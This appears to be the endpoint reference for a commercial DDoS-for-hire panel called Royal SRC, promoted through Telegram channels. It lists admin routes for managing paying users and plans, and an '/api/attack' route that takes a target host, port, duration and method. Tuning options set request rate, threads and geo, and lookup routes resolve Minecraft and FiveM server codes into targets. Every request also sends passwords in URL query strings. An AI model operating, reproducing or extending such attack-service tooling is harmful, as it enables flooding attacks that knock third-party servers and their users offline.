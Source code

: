 
> All API endpoints of Royal SRC DLC Funnel
# Admin Only # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # #
`Suggested`
https:// YOUR_CLOUDFLARE_DOMAIN /admin/ delete_user    ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE &user_to_delete= USERNAME_TO_REMOVE
https:// YOUR_CLOUDFLARE_DOMAIN /admin/ view_user_logs ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE &user_to_view=   USERNAME_TO_SEARCH
https:// YOUR_CLOUDFLARE_DOMAIN /admin/ view_user_plan ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE &user_to_view=   USERNAME_TO_SEARCH
https:// YOUR_CLOUDFLARE_DOMAIN /admin/ view_all_logs  ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE
https:// YOUR_CLOUDFLARE_DOMAIN /admin/ view_all_users ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE
https:// YOUR_CLOUDFLARE_DOMAIN /admin/ add_user ?username=&password=&username_to_add=&password_to_add=&preset_to_use=
https:// YOUR_CLOUDFLARE_DOMAIN /admin/ edit_user ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE &user_to_edit= USERNAME &field_to_edit= Integer &new_value= NEWVALUE

`Less secure and not recommended`
http:// YOUR_SERVER_IP /admin/ delete_user    ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE &user_to_delete= USERNAME_TO_REMOVE
http:// YOUR_SERVER_IP /admin/ view_user_logs ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE &user_to_view=   USERNAME_TO_SEARCH /
http:// YOUR_SERVER_IP /admin/ view_user_plan ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE &user_to_view=   USERNAME_TO_SEARCH /
http:// YOUR_SERVER_IP /admin/ view_all_logs  ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE /
http:// YOUR_SERVER_IP /admin/view_all_users?username=YOUR_ADMIN_USERNAME_HERE&password=YOUR_PASSWORD_HERE /
http:// YOUR_SERVER_IP /admin/ add_user ?username=&password=&username_to_add=&password_to_add=&preset_to_use=
https:// YOUR_SERVER_IP /admin/ edit_user ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE &user_to_edit= USERNAME &field_to_edit= Integer &new_value= NEWVALUE

# Owner User Only # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # #
`Suggested`
https:// YOUR_CLOUDFLARE_DOMAIN /admin/ key ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE
`Less secure and not recommended`
http:// YOUR_SERVER_IP /admin/ key ?username= YOUR_ADMIN_USERNAME_HERE &password= YOUR_PASSWORD_HERE

# All Users # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # #
`Suggested`
https:// YOUR_CLOUDFLARE_DOMAIN /api/ view_ongoing ?username= YOUR_USERNAME_HERE &password= YOUR_PASSWORD_HERE
https:// YOUR_CLOUDFLARE_DOMAIN /api/ view_plan    ?username= YOUR_USERNAME_HERE &password= YOUR_PASSWORD_HERE
https:// YOUR_CLOUDFLARE_DOMAIN /api/ attack       ?username= YOUR_USERNAME_HERE &password= YOUR_PASSWORD_HERE &host={HOST}&port={PORT}&time={TIME}&method={METHOD}
https:// YOUR_CLOUDFLARE_DOMAIN /api/ network_statistics
https:// YOUR_CLOUDFLARE_DOMAIN /api/ stop  ?username=  YOUR_USERNAME_HERE  &password=  YOUR_PASSWORD_HERE&host={target}
*Optional for /api/attack > &concurrents=1 &rps=64 &threads=10 &geo=CN <* 
`Lookup`
https:// YOUR_CLOUDFLARE_DOMAIN /lookup/ mc? server_address= membre.papanost.fr
https:// YOUR_CLOUDFLARE_DOMAIN /lookup/ cfx? cfx_code= 99l9le
`Less secure and not recommended`
http:// YOUR_SERVER_IP /api/ view_ongoing ?username= YOUR_USERNAME_HERE &password= YOUR_PASSWORD_HERE
http:// YOUR_SERVER_IP /api/ view_plan    ?username= YOUR_USERNAME_HERE &password= YOUR_PASSWORD_HERE
http:// YOUR_SERVER_IP /api/ attack       ?username= YOUR_USERNAME_HERE &password= YOUR_PASSWORD_HERE &host={HOST}&port={PORT}&time={TIME}&method={METHOD}
http:// YOUR_SERVER_IP /api/ network_statistics
http:// YOUR_SERVER_IP /api/ stop  ?username=  YOUR_USERNAME_HERE  &password=  YOUR_PASSWORD_HERE&host={target}
*Optional for /api/attack > &concurrents=1 &rps=64 &threads=10 &geo=CN <*
`Lookup`
http:// YOUR_SERVER_IP /lookup/ mc? server_address= membre.papanost.fr
http:// YOUR_SERVER_IP /lookup/ cfx? cfx_code= 99l9le

# More API endpoints coming soon! Join https://t.me/royalsrc for updates!

# Join https://t.me/vouchroyal for other Royal services!

# Thans for trust RoyalSRC Brother